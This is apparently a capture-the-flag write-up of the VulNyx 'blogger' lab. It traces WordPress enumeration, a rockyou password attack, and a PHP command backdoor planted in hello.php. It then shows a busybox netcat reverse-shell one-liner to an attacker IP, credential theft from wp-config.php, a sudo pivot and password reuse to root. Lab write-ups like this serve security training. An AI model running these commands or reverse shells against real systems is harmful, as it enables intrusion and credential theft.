


# blogger

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| blogger | d4t4s3c | Low | VulNyx |

**Summary:** The blogger machine ran a default Apache landing page that gave nothing away, until directory enumeration exposed a WordPress installation mounted at `/wordpress`. The application refused to serve the site until the virtual host `megablog.nyx` was resolved, a detail leaked directly out of the WordPress REST API link and the `dns-prefetch` tags. WPScan enumerated the CMS and identified a single usernamed `peter`, then a password attack against the login form recovered the weak combination `peter:peterpan`. That credential opened the WordPress administration panel, where the shipped "Hello Dolly" plugin file `hello.php` was repurposed into a command execution backdoor using the `cmd` parameter. Pulling `hello.php?cmd=id` returned `uid=33(www-data)`, and a `busybox` netcat one-liner pushed a reverse shell back to the attacker. Inside the box, the `wp-config.php` file revealed MySQL credentials using the account `root` with the password `m3g@Bl0g123`, a string that would prove decisive twice. A `sudo` policy let `www-data` spawn `/usr/bin/dash` as the `blog` user without a password, granting a stable foothold as `blog`. Finally, the MySQL root password was reused as the operating system root password: `su - root` accepted `m3g@Bl0g123` and dropped into a full root shell, where both flags sat waiting to be read.

---

## Reconnaissance

The engagement started with the usual host discovery sweep across the lab range to isolate the fresh VirtualBox guest.

1. The target was found alive at `192.168.56.106`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-11 23:58 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00042s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.0018s latency).
MAC Address: 08:00:27:32:B0:82 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.106 (192.168.56.106)
Host is up (0.0012s latency).
MAC Address: 08:00:27:E3:35:30 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.98 seconds
```

2. A full port scan with service and script enumeration was run against the target:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 00:00 -0400
Nmap scan report for 192.168.56.106 (192.168.56.106)
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:E3:35:30 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.99 seconds
```

Two services were exposed: SSH on port 22 and Apache on port 80, the latter serving the stock Apache2 Debian default page. With SSH requiring credentials that did not yet exist, the web server was the logical entry point.

3. A gobuster directory brute force against the web root revealed a WordPress installation:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.106/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10701]
wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.106/wordpress/]
server-status        (Status: 403) [Size: 279]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

The `/wordpress` directory redirected to a full WordPress site, confirming that the box was running a blog platform.

4. Following the redirect while scanning for hostname references exposed the real virtual host used by the application:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -is http://$ip/wordpress -L | grep -n "nyx"
11:Link: <http://megablog.nyx/wordpress/index.php/wp-json/>; rel="https://api.w.org/"
23:<link rel='dns-prefetch' href='//megablog.nyx' />
...
```

The WordPress REST API link and the `dns-prefetch` directive both pointed at `megablog.nyx`, so the site simply needed to be addressed by its proper hostname.

5. The domain was mapped to the target IP in the local hosts file:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ echo "$ip megablog.nyx" | sudo tee -a /etc/hosts
192.168.56.106 megablog.nyx
```

---

## Initial Access

### WordPress User Enumeration

6. WPScan was pointed at the application to enumerate users, plugins, and themes:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ wpscan --url $url/wordpress/ --enumerate u,ap,at --api-token $token -o results.txt 
...
[i] User(s) Identified:

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

The scanner recovered a single valid username: `peter`.

7. A focused directory scan of the WordPress root catalogued the login surface:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ gobuster dir -u $url/wordpress -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://megablog.nyx//wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wp-content           (Status: 301) [Size: 327] [--> http://megablog.nyx/wordpress/wp-content/]
index.php            (Status: 301) [Size: 0] [--> http://megablog.nyx/wordpress/]
license.txt          (Status: 200) [Size: 19915]
wp-login.php         (Status: 200) [Size: 6012]
wp-includes          (Status: 301) [Size: 328] [--> http://megablog.nyx/wordpress/wp-includes/]
readme.html          (Status: 200) [Size: 7399]
wp-admin             (Status: 301) [Size: 325] [--> http://megablog.nyx/wordpress/wp-admin/]
xmlrpc.php           (Status: 405) [Size: 42]
```

The `wp-login.php` entry point was present, ready for an authentication attack.

8. WPScan launched a password attack against the `peter` account using the rockyou wordlist:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ wpscan --url http://megablog.nyx/wordpress/ --usernames peter --passwords /usr/share/wordlists/rockyou.txt --api-token $token
...
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - peter / peterpan                                                                                       
Trying peter / joseluis Time: 00:00:37 <                                  > (1055 / 14345447)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: peter, Password: peterpan
...
```

The pair `peter:peterpan` was validated against the WordPress login.

### WordPress Plugin Backdoor

9. The credentials were used to reach the WordPress administration dashboard. From there, the bundled "Hello Dolly" plugin, whose file lives at `wp-content/plugins/hello.php`, was edited through the theme and plugin editor UI to embed a PHP backdoor that executes raw commands supplied through the `cmd` parameter:





10. The resulting web shell was verified by executing `id` remotely:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -i http://megablog.nyx/wordpress/wp-content/plugins/hello.php?cmd=id
HTTP/1.0 500 Internal Server Error
Date: Wed, 12 Aug 2026 04:40:31 GMT
Server: Apache/2.4.56 (Debian)
Content-Length: 54
Connection: close
Content-Type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Despite the HTTP 500 envelope, the payload executed: the response body proved arbitrary command execution as `www-data`.

### Reverse Shell as www-data

11. A netcat listener was staged on the attacking machine:

```bash
setup listener:
```

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

12. The backdoor was invoked with a `busybox` netcat one-liner aimed at the listener:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl http://megablog.nyx/wordpress/wp-content/plugins/hello.php?cmd=busybox%20nc%20192.168.56.104%204444%20-e%20/bin/bash
```

trigger it with open this:

`http://megablog.nyx/wordpress/wp-content/plugins/hello.php?cmd=busybox%20nc%20192.168.56.104%204444%20-e%20/bin/bash`

13. The shell connected back and was upgraded to a functional interactive TTY using `script` and `stty`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.104] from (UNKNOWN) [192.168.56.106] 55552
script -qc /bin/bash /dev/null
www-data@blogger:/var/www/html/wordpress/wp-content/plugins$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(kali㉿kali)-[~/nyx]
└─$ stty raw -echo;fg   
[2]  - continued  nc -lvnp 4444

<tml/wordpress/wp-content/plugins$ export TERM=xterm                         
www-data@blogger:/var/www/html/wordpress/wp-content/plugins$ export SHELL=/bin/bash 
www-data@blogger:/var/www/html/wordpress/wp-content/plugins$ stty rows 80 cols 1 
www-data@blogger:/var/www/html/wordpress/wp-content/plugins$ 
```

A command shell existed as `www-data`, the web server account.

---

## Privilege Escalation

### An Unexpected Password in wp-config.php

14. The local account list revealed only one real user besides root:

```bash
www-data@blogger:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
blog:x:1000:1000:blog:/home/blog:/bin/bash
www-data@blogger:/$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Dec 20  2024 .
drwxr-xr-x 18 root root 4096 Aug 16  2023 ..
drwx------  2 blog blog 4096 Dec 20  2024 blog
```

The account `blog` owned its own home directory and was the clear lateral movement target.

15. Reading the WordPress configuration exposed the database credentials in plaintext:

```bash
www-data@blogger:/$ cat /var/www/html/wordpress/wp-config.php 2>/dev/null | grep -i -E "DB_|PASS"
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'root' );
/** Database password */
define( 'DB_PASSWORD', 'm3g@Bl0g123' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
www-data@blogger:/$ 
```

The blog connected to MySQL as `root` using the password `m3g@Bl0g123`. The string was remembered, since administrators who reuse credentials rarely stop at one service.

### Lateral Movement to blog

16. Checking `sudo` privileges for `www-data` produced a direct bridge to the `blog` account:

```bash
www-data@blogger:/$ sudo -l
Matching Defaults entries for www-data on blogger:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on blogger:
    (blog) NOPASSWD: /usr/bin/dash
www-data@blogger:/$ sudo -u blog /usr/bin/dash
$ id;whoami
uid=1000(blog) gid=1000(blog) groups=1000(blog)
blog
```

The `www-data` account could execute `/usr/bin/dash` as `blog` without a password, producing a shell as the target user.

### Root Through Password Reuse

17. The MySQL root password was tried against the operating system root account. It worked:

```bash
www-data@blogger:/$ cat /var/www/html/wordpress/wp-config.php | grep DB                          
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'root' );
define( 'DB_PASSWORD', 'm3g@Bl0g123' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
www-data@blogger:/$ su - root
Password: 
root@blogger:~# id;whoami;hostname;pwd
uid=0(root) gid=0(root) grupos=0(root)
root
blogger
/root
root@blogger:~# cat /home/blog/user.txt /root/root.txt 
```

The database password `m3g@Bl0g123` doubled as the system root password, granting immediate superuser access and completing the compromise.

---

## Attack Chain Summary

1. **Reconnaissance**: A ping sweep isolated the target at `192.168.56.106`, and a full Nmap scan exposed SSH on port 22 and Apache on port 80. Gobuster discovered a WordPress installation under `/wordpress`.

2. **Vulnerability Discovery**: The WordPress REST API link leaked the virtual host `megablog.nyx`, which was added to the hosts file. WPScan enumerated the CMS and identified the username `peter`, then a password attack recovered the credentials `peter:peterpan`.

3. **Exploitation**: Logging into the WordPress admin panel, the bundled `hello.php` plugin was modified to carry a command execution backdoor. Requesting `hello.php?cmd=id` proved remote code execution as `www-data`, which was escalated to a reverse shell.

4. **Internal Enumeration**: Reading `wp-config.php` disclosed MySQL credentials using the account `root` with the password `m3g@Bl0g123`. A `sudo` policy additionally allowed `www-data` to run `/usr/bin/dash` as the `blog` user, granting a lateral foothold.

5. **Privilege Escalation**: The MySQL root password was reused as the operating system root password. Running `su - root` with `m3g@Bl0g123` produced a root shell, where the user and root flags were accessed.